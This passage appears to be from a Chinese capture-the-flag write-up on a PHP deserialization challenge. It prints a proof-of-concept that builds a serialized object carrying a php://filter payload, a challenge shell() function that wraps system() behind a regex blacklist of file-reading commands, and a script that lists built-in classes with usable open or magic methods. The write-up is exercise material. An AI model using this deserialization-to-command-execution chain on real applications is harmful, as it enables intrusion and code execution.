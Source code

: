 ```php

class Open{
    function open($filename, $content){
    }
}
$poc = new Game();
$poc->username = "admin";
$poc->password = "admin";
$poc->register = "admin";
$poc->file = new Open();
$poc->filename = "php://filter/read=convert.base64-encode/resource=shell";
$poc->content = "xxx";
echo base64_encode(serialize($poc));
```

shell.php

```php
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```

看到function`shell`，所以我们可以通过反序列化，来调用shell方法，然后执行`system`来命令执行

这儿遇到一个问题，open的方法，当waf.txt不存在时，我们才能调用shell方法，我们需要删除waf.txt,想到了原生类,且需要原生类中有open方法，去删除waf.txt.

遍历一个

```php
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__wakeup',
            '__call',
            '__callStatic',
            'open'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
```
